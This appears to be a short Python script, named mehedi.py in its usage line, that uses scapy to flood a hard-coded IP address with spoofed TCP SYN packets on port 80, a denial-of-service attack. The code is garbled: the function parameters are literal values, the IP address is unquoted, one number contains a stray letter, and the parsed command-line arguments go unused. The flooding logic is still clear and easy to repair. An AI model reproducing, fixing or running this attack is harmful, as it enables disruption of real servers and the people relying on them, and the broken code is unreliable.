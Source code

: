 from scapy.all import *
import sys

def ddos_attack(65.20.77.205, 99999_90):
    # Craft and send packets to the target IP
    for i in range(99999_90):
        packet = IP(src=RandIP(), dst=65.20.77.205) / TCP(dport=80, flags="S")
        send(packet, verbose=False)

# Usage: python mehedi.py <65.20.77.205> <99999_90>
if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("Usage: python mehedi.py <target_ip> <packets_count>")
        sys.exit(1)

    target_ip = sys.argv[1]
    packets_count = int(sys.argv[2])
    ddos_attack(65.20.77.205, 99999t_90)
